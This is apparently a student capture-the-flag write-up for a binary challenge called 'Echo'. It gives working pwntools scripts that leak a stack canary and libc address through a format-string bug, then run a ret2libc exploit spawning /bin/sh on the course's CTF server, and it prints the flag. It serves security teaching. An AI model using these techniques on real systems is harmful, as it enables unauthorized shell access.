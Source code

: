 # Optional CTF - Echo

1. Firstly, we checked the file given using the checksec command.

![Image 01 - checksec file program](CTFs/Opcionals/Img/4-Echo/1.checksec_program.png)

- Seeing the resuts, we can conclude that it's going to be difficult to overwrite the stack beacause this stack as a canary protecting him.

- After some time thinking, we got to the conclusion that we would need to overwrite the return address, and in order to do this we would need to store the canary's value.

- We were given the _libc_ library. We can now use the _strings_ utility to find the offset of string **/bin/sh** relative to the start of the libc binary:

```bash
strings -a -t x libc.so.6 | grep "/bin/sh"
```

![Image 02 - /bin/sh address](CTFs/Opcionals/Img/4-Echo/2.bin_sh_address.png)

- This means that, in our vulnerable program, at address 0x1bd0f5 we should see the string `/bin/sh`.

2. Secondly, we need to find the offset address of the _libc_ library.

```bash
readelf.py -s libc.so.6 lgrep system
```

![Image 03 - base address of the _libc_ library](CTFs/Opcionals/Img/4-Echo/3.glibc_library_address.png)

- In this case, we can conclude that the memeory address of the offset of the _libc_ library is `0x00048150`.

3. Thirdly, we need to find the address where the vulnerability starts in our program.

```bash
(gdb) info proc map
```

- From the output we can conclude that the base address of the _libc_ library where the vulnerability starts in our _program_ file is at 0xf7d89000.


4. After getting all this values, we can create a python script that prints all the values that are on the memory interval of the _libc_ library. 

```py
#!/usr/bin/python3
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4002)

for i in range(1,14):
    p.recvuntil(b">")
    p.sendline(b"e")
    p.recvuntil(b"Insert your name (max 20 chars): ")
    p.sendline("%" + str(i) + "$10p")
    answer = p.recvline()
    print("i: ", i, "->stack", answer)
    p.recvuntil(b"Insert your message: ")
    p.sendline(b"")

p.interactive()
```

![Image4 - getValues.py file result](CTFs/Opcionals/Img/4-Echo/4.address_in_the_middle_of_the_stack.png)

- From the result, we need to store the value that is between the start address of the program file and the end address of the same. We ca conclude, in this case, that the value is `0xf7e24ecb`. In our case, we used the value got on the 1st try `0xf7daa519`.

5. After getting all this 5 values, we need to create a python script in order to unloack the working directory and cat the flag.

```py
#!/usr/bin/python3
from pwn import *

LOCAL = False

valueInTheMiddleLibc = 0xf7daa519
addressLib = 0xf7d89000
referenceLibOffset = valueInTheMiddleLibc - addressLib
systemLibOffset = 0x00048150
shLibOffset = 0x1bd0f5

def sendMessage(p,message):
	p.recvuntil(b">")
	p.sendline(b"e")
	p.recvuntil(b"Insert your name (max 20 chars): ")
	p.sendline(message)
	answer = p.recvline()
	p.recvuntil(b"Insert your message: ")
	p.sendline(b"")
	
	return answer

if LOCAL:
	pause()
else:
	p = remote("ctf-fsi.fe.up.pt", 4002)

message1 = sendMessage(p, b"%8$x | %11$x")

canary, referenceVal = [int(val,16) for val in message1.split(b'|')]

libBase = referenceVal - referenceLibOffset
addressSystem = libBase + systemLibOffset
addressSH = libBase + shLibOffset

message2 = flat(b"A"*20, canary + 1, b"A"*8, addressSystem, b"A"*4, addressSH)

sendMessage(p,message2)

message3 = b"E"*19

sendMessage(p,message3)

p.interactive()
```

- Running this python script, we are able to enter the working directory and get the _flag.txt_.

![Image5 - exploit-example.py result, flag](CTFs/Opcionals/Img/4-Echo/5.flag_result.png)


### Flag

`flag{122d40cb0dd355c631057cf597de3dac}`

<span>* We based our research and procedure in the website: https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc .</span>
